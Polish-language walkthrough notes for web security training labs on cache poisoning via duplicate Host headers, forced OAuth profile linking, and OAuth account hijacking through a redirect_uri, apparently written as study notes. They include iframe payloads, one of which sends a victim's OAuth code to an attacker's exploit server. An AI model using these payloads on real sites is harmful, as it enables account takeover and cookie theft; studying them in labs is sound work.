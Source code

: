 ## Lab: Web cache poisoning via ambiguous requests
1. Testujemy działanie pola `Host`
2. Zauważamy, że jego wartość jest (najprawdopodobniej wpisywana w pole z linkiem do pliku .js: .../resources/js/tracking.js
3. Jeżeli zmienimy adres host dostajemy błąd, ponieważ pośredniczący serwer najprawdopodobiej nie ma dostępu do serwera o takiej domenie
4. Jeżeli natomiast dopiszemy drugi taki samo pole `Host`, jednak podamy tam inną wartość zapytanie zadziała a do dokumentu zostanie wpisana wartość ze zduplikowanego pola
5. Do drugirgo pola wpisujemy adres serwera exploit, a na nim dajemy odpowiednią ścieżkę oraz w body `alert(document.cookie)`

# OAuth 2.0

## Lab: Forced OAuth profile linking
1. Logujemy się i przechodzimy przez cały proces łączenia konta na stronie z tym na mediach społecznościowych.
2. Widzimy, że można teraz zalogować się zarówno kontem na stronie, jak i tym z mediów społecznościowych (teraz już bez wpisywania danych, ale nie ma to znaczenia)
3. Musimy zatem stworzyć payload, którym administrator połączy nasze konto (z mediów społecznościowych) ze swoim na stronie
4. Przechodzimy znowu do łacznia konta z kontem z mediami połecznościowymi i dochodzimy do momentu, gdzie mamy wygenerowane i pokazane client_id, jest to id klienta, z którego kontem będzie połączone konto z MS, nie ma tokenu CSRF (w OAuth jest to parametr `state`), a zatem i ochrony przed takim atakiem
5. W tym momencie dropujemy request, aby kod client_id nie został zużyty i link przesyłamy do ofiary w następującej formie:
```
<iframe src="https://0a4d004f04cb3a63c0382da90041006d.web-security-academy.net/oauth-linking?code=aKsHIS3bGFzKEN-EDD0918bQIjTaeSLtw0mmnW4v8e8"> </iframe>
```
6. Następnie logujemy się przez konto społecznościowe i zostajemy przekierowani na konto administracyjne, skąd usuwamy carlosa

## Lab: OAuth account hijacking via redirect_uri
1. Logujemy się przez konto na mediach społecznościowych.
2. Teraz po wylogowaniu nie musimy już wpisywać loginu ani hasła, a wystarczy nacisnąć przycisk logowania i jesteśmy uwierzytelniani.
3. Ostatecznie jesteśmy logowani, poprzez przekierowanie na `[adres_strony]/oath-callback?code=[tajny_token]`
4. Jesteśmy zatem w stanie zalogować się na dowolne konto posiadając taki token do niego przypisany (pod warunkiem, że nie został już użyty).
5. Wysyłając poprzednie zapytanie do Burp Reapeatera możemy zauważyć, że [strona] jest pobierana z wysyłanej wartości redirect_uri
6. Konstruujemy zatem payload, jest to to samo zapytanie jednak z podmienioną wartością redirect_uri wskazującą na nasz serwer, przez co zostanie wysłane na niego zapytanie z wartością token u
7. Payload
```
<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
```
8. Przechodzimy przez qproces logowania i w momencie zapytanie z `/oauth-callback` podmieniamy tokeny
